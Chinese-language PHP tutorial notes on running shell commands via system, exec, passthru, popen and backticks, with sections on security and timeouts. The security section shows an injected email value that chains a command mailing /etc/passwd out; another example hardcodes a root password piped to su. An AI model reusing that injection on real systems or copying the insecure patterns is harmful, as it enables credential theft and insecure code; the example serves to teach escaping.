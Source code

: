 #PHP执行外部命令

##PHP提供的专门函数

1. system函数

		string system(string command [,int return_var] ),
		
		<?php  
		error_reporting(E_ALL);  
		$lastLineRes=system("dir");    
		echo "<br/>$lastLineRes<br/>"; 

2. exec函数

		string exec(string commad [,array res [, int return_var] ] )
		不输出并返回最后一行结果，array res 是存放所有执行结果的数组，return_var是状态码。
		
		print_r(exec("dir"));  
		print_r(exec("dir",$res));  
		print_r(exec("dir",$res2,$statu)); 

3. passthru函数

		void passthru(string commad [,int return_var] ),
		只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上,经常用来调用像pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。

		passthru('1.gif);//会调用图形查看器显示图片
		passthru('E:\notes\sn\bibao.md');//会调用markdown来打开此文件

###使用函数popen()打开进程

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。 

popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。

在PHP3中，对这种句柄只能做单一的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。

		/* PHP中如何增加一个系统用户  
		下面是一段例程，增加一个名字为james的用户,  
		root密码是 verygood。仅供参考  
		*/   
		$sucommand = "su --login root --command";   
		$useradd = "useradd ";   
		$rootpasswd = "verygood";   
		$user = "james";   
		$user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);   
		$fp = @popen($user_add,"w");   
		@fputs($fp,$rootpasswd);   
		@pclose($fp);   

##使用反撇号`
这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如： 

		$res='ls -l';   
		echo "`$res`";  

##要考虑两个问题：安全性和超时。 
      
a.先看安全性。

比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样： 

	system("mail $to < products.txt");   

如果有个恶意的用户输入了这样一个EMAIL地址：`'--bla ; mail someone@domain.com < /etc/passwd ;' `，那么这条命令最终变成：`'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt' `

PHP为我们提供了两个函数：`EscapeShellCmd()`和`EscapeShellArg()`。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数

b.超时问题。

如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，象system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是把命令的输出重定向到另外一个文件或流中，如：

	system("/usr/local/bin/order_proc > /tmp/null &");   